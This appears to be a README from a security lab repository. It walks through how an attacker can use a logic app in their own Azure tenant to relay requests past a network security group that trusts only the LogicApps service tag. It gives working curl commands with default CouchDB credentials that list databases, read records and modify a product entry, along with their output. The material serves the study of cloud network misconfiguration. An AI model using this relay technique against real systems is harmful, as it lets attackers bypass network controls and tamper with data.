


# Logic Apps

| Scenario ID | Service Tag |
| ----------- | ----------- |
| `logicapp`  | `LogicApps` |

## Setup

Setup of this scenario follows the standard setup steps outlined in the [main README](../README.md#Deployment).

## Scenario

In this scenario we're looking at taking advantage of the `LogicApps` service tag to access a REST API. I've used CouchDB as an example service, but this should be applicable to any HTTP service.


In the target organisation, CouchDB is deployed to a linux virtual machine with a public IP address. The associated network interface has a Network Security Group (NSG) attached permitting inbound traffic from the `LogicApps` service tag only.



Based on this configuration, if an attacker tried to interact with the CouchDB REST API directly, they would be blocked due to matching the catch-all deny inbound rule on the NSG.

Instead, the attacker could set up a logic app within their own Azure environment and use this to interact with the CouchDB deployment. There are definitiely a few ways to approach this, but I decided to go for an HTTP relay. This means that we can call the logic app and interact with CouchDB in a similar manner to interacting with it directly.




Due to some limitations in how we can configure the logic app tiggers, we need to set a few headers in our request to define the upstream API that we're calling.

These are as follows:

| Header                   | Value                                                                                                 |
| ------------------------ | ----------------------------------------------------------------------------------------------------- |
| `x-target-uri`           | The target URI of the upstream API, optionally including the port and any query parameters            |
| `x-target-method`        | The HTTP method to call the upstream API with e.g. `POST`                                             |
| `x-target-authorization` | If the upstream API requires the `Authorization` header to be set, you'll need to set it here instead |

Any other headers that you set will be passed to the upstream API, with the exclusion of the `Authorization` header. If you require this header for the upstream API, use the `x-target-authorization` header insteead. This will be translated back to the correct header name by the logic app.

For this example, we're just going to be using HTTP basic authentication, this normally works by setting the `Authorization` header constucted as follows:

```plain
Basic <Base64 encoding of username:password>
```

However, as noted above, we can't use the `Authorization` header and instead we'll need to set it as the `x-target-authorization` header value.

You can find any of the URIs & credentials for this scenario in the output of `terraform apply` e.g.:

```plain
logicapp = {
  "cdb_password" = "admin"
  "cdb_username" = "admin"
  "relay_url" = "https://prod-03.uksouth.logic.azure.com:443/workflows/bef08[[REDACTED]]"
  "target_url" = "http://statgtlaue1xcouchdbvm.uksouth.cloudapp.azure.com:5984/}"
}
```

We can now construct our request and try and call the API. In this example, we're querying the API for a list of databases.

```sh
LOGIC_APP_URI="https://prod-03.uksouth.logic.azure.com:443/workflows/bef08[[REDACTED]]"
AUTH_HEADER="x-target-authorization: Basic $(echo -n admin:admin | base64)"

curl -X POST -H "x-target-method: GET" -H $AUTH_HEADER -H "x-target-uri: http://statgtlaue1xcouchdbvm.uksouth.cloudapp.azure.com:5984/_all_dbs" $LOGIC_APP_URI -d "" | jq
```

There are a couple of things to point out for the above. All of our calls to the logic app need to be `POST` requests as set by `-X POST`. We need to set the value of `x-target-method` to the method that we wish to call the upstream API with. In the above example, this is `GET`.

You may have also noticed that we have an empty body defined. When we're making a request that doesn't require a body to be sent to the upstream API (e.g. for a `GET` request), the logic app will complain about the lack of the `Content-Length` header. We can either set this header to `0`, or include an empty body and allow `curl` to set that header for us.

With the above request, we get the following json in the response body:

```json
[
  "_global_changes",
  "_replicator",
  "_users",
  "product_catalogue"
]
```

We can interact with the service further, such as retrieving specific documents from the database:

```sh
curl -X POST -H "x-target-method: GET" -H $AUTH_HEADER -H "x-target-uri: http://statgtlaue1xcouchdbvm.uksouth.cloudapp.azure.com:5984/product_catalogue/864bce91fad62b3c4ea3d67c7b000ddc" $LOGIC_APP_URI -d "" | jq 

{
  "_id": "864bce91fad62b3c4ea3d67c7b000ddc",
  "_rev": "2-119ed92decb681ff80763917277e6470",
  "name": "super cool product",
  "cost_price": 3,
  "sale_price": 9,
  "vendor": "ABC Corp",
  "description": "this is a cheaper super cool product"
}
```

And can use other request methods such as `POST` or `PUT` to modify database contents:

```sh
curl -X POST -H "x-target-method: PUT" -H $AUTH_HEADER -H "x-target-uri: http://statgtlaue1xcouchdbvm.uksouth.cloudapp.azure.com:5984/product_catalogue/864bce91fad62b3c4ea3d67c7b000ddc" -H "content-type: application/json" $LOGIC_APP_URI  -d '{"_rev": "2-119ed92decb681ff80763917277e6470", "name": "super cool product", "cost_price": 4, "sale_price": 9, "vendor": "ABC Corp", "description": "this is a cheaper super cool product"}' | jq

{
  "ok": true,
  "id": "864bce91fad62b3c4ea3d67c7b000ddc",
  "rev": "3-5355af3be491be4398e50a9f0b263b8c"
}
```
